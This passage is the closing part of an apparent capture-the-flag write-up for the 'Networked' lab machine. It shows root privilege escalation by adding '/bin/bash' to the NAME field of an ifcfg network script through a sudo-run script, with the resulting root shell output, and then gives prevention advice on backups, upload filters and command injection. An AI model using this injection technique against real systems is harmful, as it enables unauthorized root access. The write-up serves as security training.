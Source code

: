 As you can see we're able to edit the `NAME`, `PROXY_METHOD`, `BROWSER_ONLY` and `BOOTPROTO` options.

I googled `/etc/sysconfig/network-scripts/ifcfg exploit` and found the following [article](https://docs.gorigorisensei.com/linux-priv-esc/ifcf-less-than-whatever-greater-than-script-to-etc-sysconfig-network-scripts).

![](8.png)

It turns out that if we can edit the `NAME` attribute and added a space followed with a command, the system will execute that command.

Let's change the `NAME` and add `/bin/bash` at the end and see what happens.

```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh 
interface NAME:
hack /bin/bash
interface PROXY_METHOD:
a
interface BROWSER_ONLY:
a
interface BOOTPROTO:
a
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
[root@networked network-scripts]# 
```

We got root!

## **Prevention**

### Backup Information Disclosure

Backup files should be stored in a secure location that is not accessible via the web. Also use access control and encryption to protect the backup files from unauthorized access even if someone found them.

### Upload Bypass

We were able to bypass the upload filters because we found the source code of the php files. But even if we didn't, the filters put in place can be bypassed easily by uploading multiple different files and guessing the filters.

A proper input validation checks should be in place on all user input and also disable execute permission on the uploads directory.

It's better to use a third party service with enterprise security or a an established framework for preprocessing file uploads

### OS Command Injection

The cronjob was taking filename of a low privileged user and running commands on them, this allows us to make a filename containing a command that sent a reverse shell.
